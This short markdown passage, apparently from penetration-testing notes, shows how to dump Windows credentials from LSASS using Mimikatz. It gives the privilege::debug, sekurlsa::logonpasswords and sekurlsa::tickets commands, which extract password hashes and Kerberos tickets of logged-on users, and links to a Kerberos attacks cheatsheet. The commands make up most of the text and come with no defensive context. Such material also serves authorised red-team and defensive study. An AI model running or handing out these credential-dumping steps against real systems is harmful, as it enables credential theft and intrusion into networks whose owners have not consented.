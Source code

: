 In modern versions of Windows the user hashes are stored in the Local Security Authority Subsystem Service or [LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service) We can dump sensitive informations about accesses with Mimikatz. We can run Mimikatz with

```powershell
.\mimikatz.exe
```

We can use logonpasswords to dump hashed for all users logged on to the current workstation or server

```powershell
privilege::debug
sekurlsa::logonpasswords
```

Once we've executed the directory listing on a SMB share or we use another ticket-based-service, we can use Mimikatz to show the tickets that are stored in memory by entering

```powershell
privilege::debug
sekurlsa::tickets
```

### [Kerberos attacks cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
